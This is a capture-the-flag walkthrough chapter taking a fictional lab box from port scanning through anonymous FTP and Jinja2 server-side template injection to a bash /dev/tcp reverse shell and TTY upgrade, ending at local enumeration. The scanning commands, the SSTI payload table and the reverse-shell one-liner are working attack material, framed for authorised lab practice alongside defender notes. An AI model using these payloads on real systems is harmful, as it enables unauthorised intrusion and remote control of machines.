





**Level:** Expert · **Track:** Penetration Testing · **Read time:** 230 min

This is Chapter 2 of the Capstone notebook — Notebook 20. Chapter 1 ran a full-scope internal penetration test against a fictional client, external kickoff to Domain Admin, with all the constraints of a paid engagement: scope letters, noisy defenders, a report at the end. This chapter changes register. It teaches the **capture-the-flag (CTF) dialect** of the exact same skills — the format you meet on HackTheBox, TryHackMe, VulnHub, Proving Grounds, and in the offensive certification exams (OSCP, eJPT, PNPT). The rules are simpler, the feedback loop is faster, and the goal is blunt: **get a shell, become a normal user, become root, read two flags.** That is a "boot-to-root".

If you have never rooted a box, this chapter is written so you can follow every single step and understand *why* each one happens — no leaps, no "and then magically". If you have rooted fifty boxes, the value here is the reasoning between the commands: the decision tree that says *what to try next when a scan comes back*, the way an experienced player reads a 404 page or a version banner and immediately knows the next three moves. CTFs are deliberately solvable — someone built a path in on purpose — and learning to *feel* that path is a real, trainable skill. That skill is the entire point of the chapter.

We will attack one target from start to finish. It is a fictional-but-realistic Linux machine we'll call **`Forge`**, sitting at `10.10.11.42` on a lab VPN, exactly like an HTB box. Everything runs inside a lab. Pointing these tools at a machine you do not have explicit permission to test is a crime in nearly every country; a CTF platform's terms of service *are* your written authorisation, and they end at the platform's own IP ranges. Keep every command inside that boundary.

---

## What "Boot-to-Root" Actually Means

A boot-to-root machine is a single, deliberately vulnerable computer. You are dropped onto a network with it (usually over a VPN) and given nothing but its IP address. Your job is to work through a **chain**:

1. **Enumerate** — find every service, port, page, and version the machine exposes.
2. **Foothold / Initial Access** — abuse one of those to run your first command on the box (a "shell"). This gets you in as some low-privileged account (a web-server user like `www-data`, or an application user).
3. **User flag** — usually a file called `user.txt` in a normal user's home directory, containing a random hex string. Reading it proves you reached that user.
4. **Privilege escalation ("privesc")** — abuse a local misconfiguration to jump from the low-privileged user to `root` (the Linux superuser).
5. **Root flag** — `root.txt`, usually in `/root/`, readable only by root. Reading it proves you own the box.

Those flags are just proof tokens. On HTB you paste the hex string into the web UI to score points; the string itself is meaningless. The *learning* is the chain, not the flag.



The mental model that separates people who root boxes from people who get stuck is this: **you are always in one of two states — "I have a shell" or "I don't" — and almost every mistake is enumerating too shallowly.** The number-one reason a box feels "impossible" is that the answer was on a port, a page, or in a file you didn't look at hard enough. "Enumerate harder" is a meme in this world precisely because it's almost always the correct advice.

> **CTF vs. real engagement — the honest difference.** A CTF box has *a* path, put there on purpose, and it's usually a tidy chain of 2–4 steps. A real network is messier: many possible paths, many dead machines, defenders watching, and no guarantee the vuln you want even exists. But the *techniques* are identical — the same `nmap`, the same web bugs, the same `sudo -l`. CTFs are how you build the reflexes; engagements are where you apply them under real constraints (see Chapter 1). Treat every box as reps.

---

## Setting Up: Your Attack Machine and the Lab

Everything below assumes a **Kali Linux** attack machine (the standard offensive distribution — a Debian-based Linux preloaded with security tools). Parrot OS works identically. If you built your lab in the earlier methodology chapters, you already have this. If not: install Kali in a VM (VirtualBox or VMware), give it 4 GB+ RAM and two cores, and take a snapshot so you can roll back.

You connect to the target's network with a **VPN** — a virtual private network that tunnels your machine onto the lab's isolated subnet. HTB and THM give you a `.ovpn` config file. You run:

```bash
sudo openvpn --config forge-lab.ovpn
```

- `sudo` — run as root; OpenVPN needs to create a network interface (`tun0`) and edit your routing table, which are privileged operations.
- `openvpn` — the OpenVPN client program.
- `--config forge-lab.ovpn` — the connection profile the platform gave you (certificates, server address, routes, all bundled).

Leave that terminal running. In a second terminal, confirm the tunnel came up:

```bash
ip addr show tun0
```

```
5: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none
    inet 10.10.14.7/23 scope global tun0
       valid_lft forever preferred_lft forever
```

- `ip addr show tun0` — the `ip` tool is the modern Linux network-config utility (replacing `ifconfig`); `addr show tun0` prints the addresses on interface `tun0`.
- The important line is `inet 10.10.14.7/23` — **that is your IP on the lab**. Write it down. When you spawn a reverse shell later, that's the address the target calls back to. Everyone forgets their own VPN IP at least once; note it now.

Confirm you can reach the box:

```bash
ping -c 3 10.10.11.42
```

- `-c 3` — send exactly 3 packets then stop (without `-c`, `ping` runs forever).

```
PING 10.10.11.42 (10.10.11.42) 56(84) bytes of data.
64 bytes from 10.10.11.42: icmp_seq=1 ttl=63 time=24.1 ms
64 bytes from 10.10.11.42: icmp_seq=2 ttl=63 time=23.8 ms
64 bytes from 10.10.11.42: icmp_seq=3 ttl=63 time=24.0 ms
```

Two things to read from those three lines. First, the box is **up** (some boxes block ICMP; if ping fails, don't panic — scan anyway with `nmap -Pn`). Second, `ttl=63`. **TTL (Time To Live)** is a counter in every IP packet that drops by one at each router hop; the *starting* value hints at the OS. Linux/Unix start at 64, Windows at 128. We received 63 — that's 64 minus one hop through the VPN gateway — so **the target is almost certainly Linux.** That single number just told us which privilege-escalation playbook we'll eventually reach for. This is the mindset the whole chapter trains: every scrap of output is a clue.

> **Set up notes before you touch the box.** Open a note file *now* — Obsidian, CherryTree, or a plain markdown file — with headings: Ports, Web, Creds, Foothold, User, Privesc, Loot. Paste every command and every interesting result under the right heading as you go. On a 3-hour box you *will* forget that you found a username on port 21 two hours ago. In the OSCP exam, missing notes cost people passes. Notes are not busywork; they are how the chain stays visible.

---

## Phase 1 — Enumeration: Port Scanning with Nmap

**Nmap** ("Network Mapper") is the tool that turns "an IP address" into "a list of doors". It sends carefully crafted packets to a target's ports and reports which are **open** (a service is listening), **closed** (nothing listening but the host replied), or **filtered** (a firewall ate the packet). Everything downstream depends on this step, so we do it carefully.

A quick reminder of the vocabulary: a **port** is a numbered channel (0–65535) a service listens on. Web servers usually sit on **80** (HTTP) and **443** (HTTPS), SSH on **22**, FTP on **21**, and so on. Nmap's job is to find which are open and what's behind them.

### First scan: fast and wide

```bash
nmap -p- --min-rate 10000 -T4 -oN forge-allports.txt 10.10.11.42
```

Every flag, explained:

- `-p-` — scan **all 65,535 TCP ports**, not just the default top-1000. This matters constantly: box authors love hiding a service on a weird high port (say 8080 or 31337) precisely to catch people who only scan the common ones.
- `--min-rate 10000` — send at least 10,000 packets per second. This is what makes an all-ports scan finish in seconds instead of minutes. Safe on a lab; **do not** blast a real production network like this.
- `-T4` — timing template 4 ("aggressive"). Templates run 0 (paranoid/slow, for IDS evasion) to 5 (insane/fastest). `T4` is the standard lab default.
- `-oN forge-allports.txt` — write **N**ormal (human-readable) output to a file. Always save scans; you'll re-read them.

```
Starting Nmap 7.94 ( https://nmap.org )
Nmap scan report for 10.10.11.42
Host is up (0.024s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.22 seconds
```

Three open ports. Now we know the shape of the box before we've done anything clever. Note: "Not shown: 65532 filtered" tells us a firewall is silently dropping everything else — normal for a hardened box.

### Second scan: deep on the ports we found

A wide scan tells you *which* ports; now we ask *what exactly is on them*. We only scan the three open ports, so we can afford heavy probing:

```bash
nmap -p 21,22,80 -sC -sV -oN forge-services.txt 10.10.11.42
```

- `-p 21,22,80` — only the ports we already know are open.
- `-sV` — **version detection**. Nmap grabs banners and matches them against a signature database to name the exact software and version (e.g. `Apache httpd 2.4.52`). Versions are gold: they map to known CVEs.
- `-sC` — run the **default NSE scripts** (the Nmap Scripting Engine's "safe/default" category). These do lightweight extra checks: anonymous-FTP login, HTTP title grabbing, SSL cert parsing, and dozens more. `-sC -sV` together is the classic "tell me everything reasonable" combo.

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp           612 Feb 14  2024 notes-to-dev.txt
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Forge Web Foundry
|_http-server-header: Apache/2.4.52 (Ubuntu)
```

This is a rich result. Read it like an attacker:

- **Port 21 / vsftpd 3.0.3** with **anonymous login allowed** and a file called `notes-to-dev.txt` sitting there. `ftp-anon` is an NSE script that *automatically tried* to log in as the anonymous user and succeeded — and even listed a file. That file name screams "read me". This is our first concrete lead.
- **Port 22 / OpenSSH 8.9p1 on Ubuntu.** SSH is rarely the way *in* on a CTF (you need creds first), but the banner `Ubuntu 3ubuntu0.6` pins the OS to **Ubuntu 22.04 (Jammy)**. That's useful later for choosing the right privesc.
- **Port 80 / Apache 2.4.52**, page title "Forge Web Foundry". A custom web app. On the vast majority of Linux boot-to-roots, **the web app is the way in.** This is where we'll spend most of our enumeration time.



> **Blue-team note — what this scan looks like from the defender's chair.** That fast scan is *loud*. On the target, a SYN flood to 65k ports in 14 seconds lights up any IDS instantly; in a SIEM it shows as one source IP touching thousands of ports in a burst — the textbook "port scan" signature Suricata/Zeek flag by default. Anonymous FTP being enabled is itself a finding a defender should have caught in a config review. On a real engagement you'd throttle (`-T2`, low `--max-rate`) and scan from rotating hosts to stay under alerting thresholds; on a CTF nobody's watching, so we go fast.

> **Bug-bounty parallel.** You rarely run `nmap -p-` against a bug-bounty target the way you do a CTF — programs usually scope you to web assets, and mass-scanning can violate rules. But the *service-versioning* instinct transfers directly: fingerprinting the exact server/framework version (via headers, `-sV`, or tools like `whatweb`) is how you decide which vuln class to chase. An outdated `vsftpd`, `Apache`, or `OpenSSH` on an in-scope host can itself be a low/medium finding.

---

## Phase 2 — Following the FTP Lead

Nmap handed us anonymous FTP with a file. Never leave a lead like that unread. **FTP (File Transfer Protocol)** is an old protocol for moving files; "anonymous" access means you log in with the username `anonymous` and any password (or none). Let's grab the file:

```bash
ftp anonymous@10.10.11.42
```

```
Connected to 10.10.11.42.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
ftp> ls
229 Entering Extended Passive Mode (|||30215|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           612 Feb 14  2024 notes-to-dev.txt
226 Directory send OK.
ftp> get notes-to-dev.txt
local: notes-to-dev.txt remote: notes-to-dev.txt
226 Transfer complete.
ftp> bye
```

- `ftp anonymous@10.10.11.42` — start the FTP client, logging in as `anonymous`. Press Enter at the password prompt.
- `ls` — list files on the remote server.
- `get notes-to-dev.txt` — download that file to your current local directory.
- `bye` — quit.

Read what we pulled:

```bash
cat notes-to-dev.txt
```

```
Dev team — reminder for the new Forge portal:

The internal templating preview at /workshop is still using the raw
render path. I keep telling you: DO NOT expose that to prod until we
sandbox the Jinja rendering. It runs whatever you type. -mreynolds

Also: staging creds are the same as always until we rotate. Stop
reusing them.
```

This one file is a goldmine, and learning to squeeze a note like this dry is a core CTF skill. Three separate leads:

1. **A hidden path: `/workshop`.** We wouldn't have found this by guessing; the note handed it to us.
2. **"raw render path… Jinja rendering… runs whatever you type."** **Jinja** is a templating engine used by Python web frameworks (Flask especially). "Runs whatever you type" through a template is the textbook description of **Server-Side Template Injection (SSTI)** — a vulnerability where user input is evaluated as template code, which on Jinja/Flask reliably leads to remote code execution. We now have a *hypothesis for the foothold* before we've even opened the site.
3. **A username: `mreynolds`**, and a hint that **credentials are reused** ("staging creds are the same… stop reusing them"). File that away for privesc — reused creds are a classic pivot.

> **This is the CTF reading skill in miniature.** A beginner reads that note and moves on. An experienced player extracts a path, a vuln class, a username, and a privesc hint from four sentences, and writes all four into their notes. The box author put that note there to *teach you* to read leads. Always ask of any artifact: what path, what tech, what name, what secret does this reveal?

---

## Phase 3 — Web Enumeration

Now the main event: the web app on port 80. Web enumeration has two halves — **look at it like a human** (browse it, read source, watch requests) and **enumerate it like a machine** (brute-force hidden paths, fingerprint the stack).

### Fingerprint the stack

```bash
whatweb http://10.10.11.42
```

**`whatweb`** identifies web technologies — server, framework, language, JS libraries — by matching response fingerprints.

```
http://10.10.11.42 [200 OK] Apache[2.4.52], Country[RESERVED][ZZ],
HTTPServer[Ubuntu Linux][Apache/2.4.52 (Ubuntu)], IP[10.10.11.42],
Python[3.10.12], Werkzeug[2.2.2], Title[Forge Web Foundry],
X-Powered-By[Flask]
```

**Confirmation of our hypothesis.** `Werkzeug` and `X-Powered-By: Flask` mean this is a **Flask** app (a Python web framework). Flask's default template engine is **Jinja2**. The FTP note said "Jinja rendering… runs whatever you type." So an SSTI foothold is now not just plausible — it's the likely intended path. Note also `Python[3.10.12]` and `Werkzeug[2.2.2]`, which we log for completeness.

### Add the hostname (many boxes need this)

Web apps often behave differently depending on the `Host` header (virtual hosting). CTF boxes frequently have a hostname that only resolves if you add it to your local hosts file. Try the obvious one:

```bash
echo "10.10.11.42 forge.htb" | sudo tee -a /etc/hosts
```

- `/etc/hosts` — a local file mapping names to IPs, checked before DNS. Adding `forge.htb` lets us browse `http://forge.htb`.
- `tee -a` — append (`-a`) the line to the file; `sudo` because `/etc/hosts` is root-owned.

### Directory and content brute-forcing

We can't see hidden pages just by browsing. **`gobuster`** (or `feroxbuster`/`ffuf`) rapidly requests thousands of candidate paths from a wordlist and reports which return non-404 responses — revealing pages that aren't linked anywhere.

```bash
gobuster dir -u http://forge.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html -t 50 -o forge-gobuster.txt
```

- `dir` — directory/file brute-forcing mode.
- `-u http://forge.htb` — the target URL.
- `-w …directory-list-2.3-medium.txt` — the wordlist of paths to try (this one ships with Kali; ~220k entries, the workhorse list).
- `-x php,txt,html` — also append these extensions to each word (so it tries `admin`, `admin.php`, `admin.txt`, `admin.html`).
- `-t 50` — use 50 concurrent threads for speed.
- `-o forge-gobuster.txt` — save results.

```
===============================================================
Gobuster v3.6
===============================================================
/uploads              (Status: 301) [--> http://forge.htb/uploads/]
/static               (Status: 301) [--> http://forge.htb/static/]
/workshop             (Status: 200) [Size: 3841]
/login                (Status: 200) [Size: 1620]
/admin                (Status: 403) [Size: 278]
===============================================================
```

Read the status codes — each is a clue:

- **`200 OK`** — the page exists and rendered. `/workshop` (the FTP note's path!) and `/login`.
- **`301` redirect** — usually a directory. `/uploads` and `/static`.
- **`403 Forbidden`** — the page *exists* but we're not allowed in (`/admin`). A 403 is not "nothing here"; it's "something here you can't reach yet" — worth remembering for after we get creds.

The FTP note pointed at `/workshop`, gobuster confirmed it's live and returns a real page, and whatweb told us the stack is Flask/Jinja. Every lead points to the same door. Let's open it.

```mermaid
flowchart LR
    W[whatweb] -->|Flask + Jinja2| H[SSTI hypothesis]
    N[FTP note] -->|/workshop path| WS[/workshop page]
    G[gobuster] -->|/workshop 200| WS
    H --> WS
    WS --> T[Test for SSTI]
```

> **Bug-bounty note.** Content discovery is *identical* on real programs — `ffuf`/`feroxbuster` against in-scope hosts is bread-and-butter recon, and forgotten endpoints (`/admin`, `/debug`, `/backup`, staging paths) are a genuine source of bounties. The difference is discipline: respect scope, throttle threads so you don't DoS the target, and prefer wordlists tuned to the tech stack you fingerprinted.

---

## Phase 4 — Foothold: Server-Side Template Injection to RCE

### What SSTI actually is (from scratch)

A **template** is an HTML page with placeholders the server fills in. In Flask/Jinja, `{{ name }}` in a template gets replaced with the value of `name`. That's normal and safe — the *developer* controls the template, the user only supplies the data.

**Server-Side Template Injection** happens when the application builds the template out of **user input** — for example, taking whatever you type and rendering it *as template code* rather than *as data*. Now `{{ 7*7 }}` in your input doesn't stay literal; Jinja evaluates it and the page shows `49`. And because Jinja templates run in Python, "evaluate arbitrary Jinja" quickly becomes "run arbitrary Python", which becomes "run arbitrary shell commands" — full **Remote Code Execution (RCE)**.

The FTP note literally said the `/workshop` preview "runs whatever you type" through "raw render". That's a developer describing SSTI without the jargon.

### Confirm the injection

Browse to `http://forge.htb/workshop`. It's a "template preview" form: you type template text, it renders a preview. Type the canary payload:

```
{{ 7*7 }}
```

The preview returns:

```
49
```

That's the confirmation. A safe app would show the literal text `{{ 7*7 }}`. Ours computed `49`, so **our input is being evaluated as Jinja.** (If `7*7` had come back literally, we'd suspect a different engine and try other canaries — `${7*7}`, `<%= 7*7 %>`, `#{7*7}` — each of which fingerprints a specific template engine. `{{7*7}}→49` specifically points at Jinja2/Twig; the next test disambiguates.)

Confirm it's specifically Jinja2 (Python) and not Twig (PHP):

```
{{ 7*'7' }}
```

- Jinja2 (Python) returns `7777777` — Python multiplies a string by an int by repeating it.
- Twig (PHP) returns `49`.

We get `7777777`. **Confirmed Jinja2 on Python.** Now we escalate from "evaluate math" to "run commands".

The reason we test two payloads instead of one is that `{{7*7}}→49` alone is ambiguous — several engines evaluate it. The follow-up disambiguates. Keep this fingerprint table handy; the *correct* RCE payload is completely different per engine, so identifying the engine is not optional:

| Canary input | Result | Engine (language) | Typical RCE escape |
|--------------|--------|-------------------|--------------------|
| `{{ 7*7 }}` | `49` | Jinja2 (Py) **or** Twig (PHP) | needs disambiguation |
| `{{ 7*'7' }}` | `7777777` | **Jinja2 (Python)** | `cycler.__init__.__globals__.os.popen()` |
| `{{ 7*'7' }}` | `49` | **Twig (PHP)** | `_self.env.registerUndefinedFilterCallback('exec')` |
| `${7*7}` | `49` | FreeMarker (Java) / Spring EL | `<#assign … "freemarker.template.utility.Execute">` |
| `#{7*7}` | `49` | Ruby ERB / Slim | `<%= system('id') %>` |
| `<%= 7*7 %>` | `49` | ERB (Ruby) / EJS (Node) | `<%= system('id') %>` / `child_process` |
| `{{7*7}}` literal | `{{7*7}}` | not template-injectable | look elsewhere |

### From SSTI to command execution

Jinja runs in a sandboxed-ish Python context, but you can climb out of it through Python's object model. The classic technique walks from any object up to `object`, enumerates all its subclasses, finds one that can run OS commands (like `subprocess.Popen`), and calls it. The battle-tested payload:

```jinja
{{ cycler.__init__.__globals__.os.popen('id').read() }}
```

Breaking this down (this is worth understanding, not just copy-pasting):

- `cycler` — a harmless object Jinja exposes by default. Any exposed object works as a starting handhold; `cycler`, `joiner`, and `namespace` are common choices.
- `.__init__` — its constructor function.
- `.__globals__` — the dictionary of global names visible where that function was defined. This is the escape hatch: it includes imported modules.
- `.os` — the `os` module happens to be reachable in that globals dict.
- `.popen('id')` — `os.popen` runs a shell command; here `id`, which prints the current user.
- `.read()` — read the command's output back so it renders on the page.

Paste it into the `/workshop` form. The preview returns:

```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**We have Remote Code Execution.** We're running commands as `www-data` — the low-privileged Apache/Flask service account. `uid=33` is the standard www-data UID on Debian/Ubuntu. This is the foothold. But typing commands one at a time into a web form is miserable; we want a real interactive shell.

> **CTF note — SSTI is a top-tier foothold class.** SSTI in Jinja/Flask, Twig/PHP, FreeMarker/Java, and ERB/Ruby appears constantly on HTB/THM and in PortSwigger's Web Academy. The `{{7*7}}` canary and the "walk `__globals__` to `os`" escape are muscle memory for regulars. If you want to *drill* this specifically, PortSwigger's SSTI labs and HTB boxes tagged "SSTI" are the fastest way to internalise the payloads.

> **Bug-bounty note — SSTI pays.** SSTI is a recurring high/critical on real programs: it's RCE, full stop. Reports typically show a benign proof (`{{7*7}}` → `49`, or reading a non-sensitive env var) rather than popping a shell, because on a live production target you demonstrate impact without actually running destructive commands. Escalating from "expression evaluates" to `__globals__`-based RCE is exactly the chain that turns a medium into a critical in a report.

---

## Phase 5 — Getting a Real Shell (Reverse Shell + Stabilisation)

### Reverse vs bind shells (the concept)

To *interact* with the box, we want a **shell** — a command interpreter we can type into over the network. Two flavours:

- **Bind shell** — the target opens a listening port and waits; you connect *to* it. Problem: the target's firewall usually blocks inbound connections (recall our nmap showed 65,532 filtered ports).
- **Reverse shell** — the target connects *out* to us. Outbound connections are far more often allowed. So on almost every box, **we use a reverse shell.**

The plan: we listen on our Kali box; we use our SSTI RCE to make the target run a command that connects back to us and hands us a shell.

### Step 1 — Start a listener on Kali

**Netcat (`nc`)** is a tiny utility that reads and writes raw network connections — "the TCP/IP Swiss Army knife". We use it to catch the incoming shell:

```bash
nc -lvnp 4444
```

- `-l` — **listen** mode (wait for an incoming connection).
- `-v` — verbose (print when someone connects).
- `-n` — no DNS lookups (faster, avoids hangs).
- `-p 4444` — listen on port 4444 (any free high port works).

The terminal now hangs, waiting. Good.

### Step 2 — Fire the reverse shell through SSTI

We send, via the `/workshop` form, a command that spawns a shell connecting back to our VPN IP (`10.10.14.7`) on port 4444. A reliable modern payload uses `bash`:

```jinja
{{ cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/10.10.14.7/4444 0>&1"').read() }}
```

The inner command, decoded:

- `bash -c "..."` — run the quoted string as a bash command.
- `bash -i` — start an **i**nteractive bash shell.
- `>& /dev/tcp/10.10.14.7/4444` — redirect the shell's output *and* errors to a special Bash device file that opens a TCP connection to `10.10.14.7:4444`. (Bash exposes `/dev/tcp/HOST/PORT` as a magic pseudo-file that is actually a network socket — a beautiful trick that needs no extra tools on the target.)
- `0>&1` — also redirect the shell's **input** from that same socket, so what we type on Kali is fed into the target's shell.

Back on the Kali listener:

```
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.42] 51234
bash: cannot set terminal process group (812): Inappropriate ioctl for device
bash: no job control in this shell
www-data@forge:/var/www/forge$
```

**We have an interactive shell as `www-data`.** But it's a "dumb" shell — no tab-completion, no arrow keys, no `Ctrl-C` without killing the whole session, and if you accidentally hit `Ctrl-C` you lose everything. Fix that next.

### Step 3 — Stabilise the shell (upgrade to a full TTY)

A raw netcat shell isn't a proper terminal (**TTY**). The standard upgrade dance:

```bash
# On the target (in the netcat shell):
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- Spawns a proper pseudo-terminal using Python's `pty` module, giving us job control and a real prompt. (If `python3` isn't present, `script -qc /bin/bash /dev/null` does the same.)

```bash
export TERM=xterm
```
- Tells the shell what terminal type we are, so `clear`, `less`, and text editors render correctly.

Now background the shell and fix the local terminal settings:

```bash
# Press Ctrl-Z to background the netcat shell (drops you back to Kali)
stty raw -echo; fg
# (press Enter a couple of times)
```

- `Ctrl-Z` — suspend netcat, returning you to Kali's prompt.
- `stty raw -echo` — put *your* Kali terminal into raw mode and stop it echoing, so keystrokes (arrows, `Ctrl-C`, tab) pass straight through to the target instead of being handled locally.
- `fg` — foreground netcat again. Now you have a near-perfect terminal: arrows, tab-completion, `Ctrl-C` that interrupts a command instead of killing your shell.



> **Blue-team note — this is the noisiest moment of the attack.** A web service (`www-data`) spawning `bash -i` with a socket to an external IP on a high port is a screaming anomaly. EDR and auditd catch it via the process lineage `apache2/python → bash → /dev/tcp` and the outbound connection to an unusual port. Detections that matter: alert on web-server users spawning shells at all, on outbound connections from service accounts, and on `bash -i`/`/dev/tcp` usage. Egress filtering (blocking arbitrary outbound ports) would have stopped this reverse shell cold — which is exactly why reverse shells are a defensive priority.

---

## Phase 6 — Local Enumeration and the User Flag

We're on the box, but as a service account with no home directory of our own. Two goals now: grab the **user flag** (which lives in a *real* user's home) and find a path to **root**. Both start with the same discipline — enumerate the local system thoroughly.

### Where are we, and who else is here?

```bash
id
```
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

```bash
ls -la /home
```
- `ls -la` — list **a**ll files (including hidden dotfiles) in **l**ong format (permissions, owner, size, date).
```
drwxr-xr-x  3 root      root      4096 Feb 14  2024 .
drwxr-xr-x 18 root      root      4096 Feb 14  2024 ..
drwxr-x--- 4 mreynolds mreynolds 4096 Feb 14  2024 mreynolds
```

